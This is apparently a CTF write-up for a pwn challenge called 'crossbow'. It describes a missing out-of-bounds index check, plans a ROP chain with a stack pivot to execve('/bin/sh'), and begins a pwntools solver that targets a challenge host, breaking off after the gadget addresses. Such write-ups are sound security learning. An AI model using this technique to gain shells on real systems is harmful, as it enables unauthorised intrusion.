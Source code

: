 ```c
      v17);
    exit(69LL);
  }
  return result;
}
```

### BUG :

- no OOB check on the index value
- we can specify a pointer in stack that can read into it with _fgets_ (relative to argument passed)

### plan :

- we choose index `-2` so it points to saved rbp so we can ropchain at the ret of calling function .
- i couldnt fit a read into execve('/bin/sh') in 128 bytes so i had to split the payload into 2 parts : one is written in the stack and the other is written in the bss when i write ("/bin/sh) . after reading /bin/sh and the second rop we just stack pivot into it .
- also i needed to increase the rsp value so that when we call fgets for read rsp doesnt go out of the stack >>> segfault
  for that i used this gadget that saves some space and does what i need
  `0x00000000004051c3 : pop rax ; pop rdx ; add rsp, 0x28 ; ret`
- gg

### Solver :

```python
from pwn import *
from time import sleep
context.arch = 'amd64'

def debug():
        if local<2:
                gdb.attach(p,'''
                        b* 0x00000000004013ec
                        b* 0x0000000000401450
                        b* 0x0000000000401313
                        ''')
###############   files setup   ###############
local=len(sys.argv)
exe=ELF("./crossbow")
libc=ELF("/lib/x86_64-linux-gnu/libc.so.6")
nc="nc 94.237.55.3 56251"
port=int(nc.split(" ")[2])
host=nc.split(" ")[1]

############### remote or local ###############
if local>1:
        p=remote(host,port)
else:
        p=process([exe.path])

############### helper functions ##############
def send():
        pass

############### main exploit    ###############
#debug()
p.sendline("-2")

rdi=0x0000000000401d6c
rsi=0x000000000040566b
```